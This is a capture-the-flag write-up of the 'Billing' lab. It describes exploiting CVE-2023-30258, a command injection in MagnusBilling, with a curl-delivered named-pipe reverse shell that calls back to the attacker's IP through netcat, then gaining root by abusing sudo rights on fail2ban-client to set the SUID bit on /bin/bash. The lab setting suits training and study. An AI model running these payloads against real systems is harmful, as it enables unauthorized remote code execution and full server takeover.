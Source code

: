 
# 💸 Billing — Command Injection to Root

> **Challenge Description:**  
> Gain a shell, find the way, and escalate your privileges!

---

## 🧠 Overview

In the Billing room, we exploited a command injection vulnerability in the MagnusBilling web application to gain an initial foothold. With sudo privileges over the Fail2Ban service, we leveraged a misconfiguration to escalate privileges and gain a root shell.

---

## 🔍 Enumeration

### 🔎 Port Scanning

```bash
nmap -p- -sC -sV [target IP]
```

- Full TCP port scan with default scripts (`-sC`) and version detection (`-sV`).
- Identify exposed services and applications.

---

## 🌐 Web Enumeration

- Explored web paths and checked common directories.
- Identified **MagnusBilling** application.
- Discovered **CVE-2023-30258** – an unauthenticated **command injection** vulnerability.

### ✅ Proof of Vulnerability

```bash
curl -s 'http://[target]/mbilling/lib/icepay.php?democ=;sleep+2;'
```

---

## 🐚 Getting a Shell

### 🌀 Payload (Named Pipe Reverse Shell)

```bash
curl -s 'http://[target]/mbilling/lib/icepay/icepay.php' \
--get --data-urlencode \
'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [your-ip] 443 >/tmp/f;'
```

**Start your listener:**
```bash
nc -lvnp 443
```

---

### 🧽 Shell Upgrade

Once connected:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

**Suspend and fix terminal locally:**

```bash
Ctrl + Z
stty raw -echo; fg
```

✅ You now have an interactive shell.

---

## 🧑‍💻 Privilege Escalation

### 🔐 Using `fail2ban-client`

The user had `sudo` rights to manage **Fail2Ban**:

```bash
sudo fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```

- This command sets a custom ban action that applies the **SUID bit** to `/bin/bash`.

Then, execute:

```bash
bash -p
```

✅ Root shell achieved!

---

## 📂 Flags

- `user.txt`: Found in the user home directory.
- `root.txt`: Accessible after privilege escalation.

---

## 📌 Summary

| Step | Description |
|------|-------------|
| Recon | Scanned for open ports and found MagnusBilling |
| Foothold | Used CVE-2023-30258 to exploit a command injection |
| Shell | Sent a reverse shell payload via HTTP |
| PrivEsc | Abused `fail2ban-client` sudo rights to gain root |
| Post Exploitation | Upgraded shell and accessed flags |

---

## 🧪 Extra Notes

### 🔍 CVE-2023-30258

- Affects MagnusBilling's `icepay.php`.
- Allows unauthenticated RCE via the `democ` parameter.

---

### 🧰 Useful Tools

- `nmap`, `dirsearch`, `curl`, `netcat`
- Python for TTY upgrades
- `fail2ban-client` for root escalation
